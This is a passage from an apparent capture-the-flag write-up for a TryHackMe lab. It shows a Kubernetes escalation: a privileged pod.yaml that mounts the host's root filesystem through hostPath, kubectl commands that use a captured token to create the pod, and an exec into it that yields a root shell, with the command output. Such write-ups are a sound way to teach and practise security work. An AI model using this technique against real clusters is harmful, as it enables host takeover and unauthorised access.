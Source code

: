 Then, we can create a `pod.yaml` file and mounting the root directory:

- Create a `pod.yaml` file:

**pod.yaml:**
```yaml       
apiVersion: v1
kind: Pod
metadata:
  name: pod
  labels:
    app: pod
spec:
  containers:
  - name: pod
    image: gitea/gitea:1.5.1
    imagePullPolicy: IfNotPresent
    volumeMounts:
    - name: hostvolume
      mountPath: /pod
    ports:
    - containerPort: 80
    securityContext:
     privileged: true
  volumes:
  - name: hostvolume
    hostPath:
      path: /
```

- Create a new pod:

```
┌──(root💀siunam)-[~/ctf/thm/ctf/PalsForLife]
└─# kubectl --server https://$RHOSTS:6443 --token {Redacted_Token} --insecure-skip-tls-verify create -f pod.yaml                      
pod/pod created
```

- Verify the new pod is created:

```
┌──(root💀siunam)-[~/ctf/thm/ctf/PalsForLife]
└─# kubectl --server https://$RHOSTS:6443 --token {Redacted_Token} --insecure-skip-tls-verify get pods                                  
NAME                     READY   STATUS    RESTARTS   AGE
[...]
pod                      1/1     Running   0          12s
```

- Spawn a root shell:

```
┌──(root💀siunam)-[~/ctf/thm/ctf/PalsForLife]
└─# kubectl --server https://$RHOSTS:6443 --token {Redacted_Token} --insecure-skip-tls-verify exec --tty --stdin pod '/bin/bash'
kubectl exec [POD] [COMMAND] is DEPRECATED and will be removed in a future version. Use kubectl exec [POD] -- [COMMAND] instead.
bash-4.4# whoami;hostname;id;ip a
root
pod
uid=0(root) gid=0(root) groups=1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
[...]
3: eth0@if9: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 8951 qdisc noqueue state UP 
    link/ether 0a:90:b4:68:b7:62 brd ff:ff:ff:ff:ff:ff
    inet 10.42.0.15/24 brd 10.42.0.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::890:b4ff:fe68:b762/64 scope link 
```